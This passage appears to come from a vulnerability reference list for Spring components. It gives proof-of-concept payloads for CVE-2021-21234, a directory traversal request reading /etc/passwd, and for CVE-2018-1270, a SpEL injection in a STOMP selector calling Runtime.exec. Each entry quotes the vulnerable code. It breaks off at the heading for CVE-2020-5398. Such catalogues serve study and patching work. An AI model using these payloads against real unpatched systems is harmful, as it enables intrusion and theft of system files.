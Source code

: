 ```
```

### （7）Spring Boot Actuator Logview
#### CVE-2021-21234 Directory Traversal 
Affected Version: < 0.2.13

POC: 
```
GET /manage/log/view?filename=/etc/passwd&base=../../../../../
```
Factor: 
```
eu.hinsch.spring.boot.actuator.logview.FileSystemFileProvider
public void streamContent(Path folder, String filename, OutputStream stream) throws IOException {
    IOUtils.copy(new FileInputStream(this.getFile(folder, filename)), stream);
}
```
### （8）Spring Framework
#### CVE-2018-1270 RCE
Affected Version: < 5.0.5 or 4.3.15

Diff: https://github.com/spring-projects/spring-framework/commit/e0de9126ed8cf25cf141d3e66420da94e350708a#

POC: 
```
app.js -> Add header
var header = {"selector":"T(java.lang.Runtime).getRuntime().exec('open /System/Applications/Calculator.app')"};

Connect -> use burp to modify packets
["SUBSCRIBE\nid:sub-0\ndestination:/topic/greetings\nselector:T(java.lang.Runtime).getRuntime().exec('open /System/Applications/Calculator.app')\n\n\u0000"]

send messages...
```
Factor: 
```
org.springframework.messaging.simp.broker.DefaultSubscriptionRegistry
private MultiValueMap<String, String> filterSubscriptions(MultiValueMap<String, String> allMatches, Message<?> message) {
    info = this.subscriptionRegistry.getSubscriptions(sessionId);
    sub = info.getSubscription(subId);
    Expression expression = sub.getSelectorExpression();
    context = new StandardEvaluationContext(message);
    if (Boolean.TRUE.equals(expression.getValue(context, Boolean.class))) {
        result.add(sessionId, subId);
    }
}
```

#### CVE-2020-5398 Reflected File Download
Affected Version: < 5.2.3 or 5.1.13 or 5.0.16
